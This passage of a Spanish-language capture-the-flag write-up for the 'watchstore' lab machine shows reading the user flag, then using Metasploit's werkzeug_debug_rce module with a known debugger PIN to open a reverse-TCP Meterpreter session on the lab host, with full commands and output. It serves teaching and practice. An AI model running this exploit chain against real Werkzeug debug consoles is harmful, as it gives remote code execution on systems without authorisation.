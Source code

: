 Encontraremos la flag del usuario en el directorio `/home/relox`:
```bash
relox@thehackerslabs-watchstore:~/watchstore$ cd ..
relox@thehackerslabs-watchstore:~$ ls
user.txt  watchstore
relox@thehackerslabs-watchstore:~$ cat user.txt
...
```

<br>

<h3 id="RevShell2">Obteniendo Sesión de Meterpreter con Módulo werkzeug_debug_rce de Metasploit</h3>

Para que este módulo funcione, necesitamos forzosamente el **PIN** de acceso a la **consola de Python**.

Inicia y carga el módulo `exploit/multi/http/werkzeug_debug_rce`:
```bash
msfconsole -q
msf > use exploit/multi/http/werkzeug_debug_rce
[*] No payload configured, defaulting to python/meterpreter/reverse_tcp
msf exploit(multi/http/werkzeug_debug_rce) >
```

Configúralo:
```bash
msf exploit(multi/http/werkzeug_debug_rce) > set RHOSTS 192.168.100.80
RHOSTS => 192.168.100.80
msf exploit(multi/http/werkzeug_debug_rce) > set RPORT 8080
RPORT => 8080
msf exploit(multi/http/werkzeug_debug_rce) > set VHOST watchstore.thl
VHOST => watchstore.thl
msf exploit(multi/http/werkzeug_debug_rce) > set AUTHMODE known-PIN
AUTHMODE => known-PIN
msf exploit(multi/http/werkzeug_debug_rce) > set PIN ***-***-***
PIN => ***-***-***
```

Ejecuta el módulo:
```bash
msf exploit(multi/http/werkzeug_debug_rce) > exploit
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Debugger allows code execution
[!] The service is running, but could not be validated. Debugger requires authentication
[*] Retrieved authentication cookie: __wzd29d2d831e1ca74a39770=085495032|b6fa012039ca;
[*] Sending stage (24772 bytes) to 192.168.100.80
[*] Meterpreter session 1 opened (Tu_IP:4444 -> 192.168.100.80:46910) at 2025-09-03 12:54:17 -0600

meterpreter > getuid
Server username: relox
meterpreter > sysinfo
Computer        : thehackerslabs-watchstore
OS              : Linux 6.1.0-35-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.137-1 (2025-05-07)
Architecture    : x64
System Language : es_ES
Meterpreter     : python/linux
```
Estamos dentro y tenemos la sesión de **Meterpreter**.
